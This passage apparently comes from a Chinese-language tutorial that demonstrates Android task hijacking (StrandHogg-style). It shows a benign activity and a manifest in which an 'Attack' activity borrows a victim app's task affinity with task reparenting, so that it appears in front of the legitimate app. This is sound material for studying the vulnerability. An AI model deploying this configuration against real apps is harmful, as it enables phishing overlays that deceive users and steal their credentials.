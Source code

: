**Innocent.java**

```java
public class Innocent extends AppCompatActivity {
    @Override
    protected void onCreate(@Nullable Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
    }
}
```

#### 4.利用漏洞使得恶意活动插入在合法活动之前

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools">
<!--    package="com.vuln.strandhogg">-->

    <application

        android:allowBackup="true"
        android:dataExtractionRules="@xml/data_extraction_rules"
        android:fullBackupContent="@xml/backup_rules"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.TryATTACK"
        tools:targetApi="31">


    <activity  android:name="com.example.tryattack.MainActivity"
            android:exported="true"
            tools:ignore="MissingClass">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
        <activity android:name="com.example.tryattack.Innocent"
            tools:ignore="MissingClass" />
        <activity android:name="com.example.tryattack.Attack"
            android:taskAffinity="com.example.truebeattacked"
            android:allowTaskReparenting="true"
            tools:ignore="MissingClass" />
    </application>

</manifest>
```
